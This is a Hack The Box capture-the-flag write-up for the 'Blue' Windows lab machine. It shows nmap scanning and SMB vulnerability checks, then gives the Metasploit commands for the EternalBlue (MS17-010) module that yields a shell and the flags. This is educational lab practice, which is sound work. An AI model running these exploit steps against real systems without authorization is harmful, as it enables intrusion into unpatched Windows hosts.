 # Hack the box - Blue

<img align="left" src="logo.png">
&nbsp;<span style="color:#b5e853; font-weight: bold">OS: <img align="top" src="../../../images/windows.png"> </span><b>Windows</b>
&nbsp;<span style="color:#b5e853; font-weight: bold">IP: </span><b>10.10.10.40</b>

&nbsp;<span style="color:#b5e853; font-weight: bold">Difficulity: </span><b>Easy</b>
&nbsp;<span style="color:#b5e853; font-weight: bold">Release: </span><b>2017 Jul 28</b>

___

## Port scanning
```
nmap -sC -sV -T4 -oA nmap 10.10.10.40
```
![Nmap results](./nmap.png)

We quickly notice computer user haris-PC and SMB service running on the host with port 445. It could be vulnerable, so let's check for nmap scripts:

```
ls -la /usr/share/nmap/scripts/ | grep smb*
```

![Nmap smb scripts](nmap_smb_scripts_list.png)

Let's run all of them on nmap:

![Nmap smb vulnerability check](smb_vulnerable.png)

We can see that machine is vulnerable to ms17-10 exploit.

## Getting access

We could use metasploit for running this exploit:

```
use exploit/windows/smb/ms17_010_eternalblue
set rhosts 10.10.10.40
set SMBUser haris-PC
exploit
```

![Metasploit exploit](exploit.png)

As we can see, we got shell. Lets check for current user and try to capture the flags:

![Flag capture](flag_capture.png)